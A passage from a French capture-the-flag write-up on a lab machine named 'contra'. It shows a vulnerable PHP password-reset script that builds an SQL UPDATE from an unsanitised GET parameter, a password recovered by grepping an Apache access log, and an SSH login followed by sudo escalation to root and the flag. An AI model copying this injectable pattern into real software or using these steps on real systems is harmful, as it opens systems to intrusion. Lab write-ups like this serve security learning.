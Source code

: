 ```php
<?php
error_reporting(-1); // reports all errors
ini_set("display_errors", "1");

// admin can you make logs unreadable for more security  ?
$newpass = $_GET["newpassword"];

$command = sprintf("UPDATE credentials SET password='%s' ",$newpass);
$conn = new mysqli("localhost", "username", "password","contra");
// Check connection
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}
if ($conn->query($command) === TRUE) {
    echo "Record updated successfully";
} else {
    echo "Error updating record: " . $conn->error;
}

$conn->close();
?>
```

C'est encore *grep* qui nous sort de l'embarras :  

```plain
/var/log/apache2/access.log.1:::1 - - [16/Dec/2018:13:55:42 +0000] "GET /RecoveryUtility/newpass.php?newpassword=Sup3rp@ssw0rd99 HTTP/1.1" 200 463 "-" "curl/7.58.0"
```

Game Over
---------

On peut alors se connecter avec le compte bill en SSH. La suite c'est du déjà vu :  

```plain
bill@contra:~$ sudo -l
[sudo] password for bill:
Matching Defaults entries for bill on contra:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bill may run the following commands on contra:
    (ALL : ALL) ALL
bill@contra:~$ sudo su
root@contra:/home/bill# id
uid=0(root) gid=0(root) groups=0(root)
root@contra:/home/bill# cd
root@contra:~# ls
root.txt
root@contra:~# cat root.txt
8122079ae9ee220d2a655c739101c4f4
```


*Published November 17 2020 at 13 59*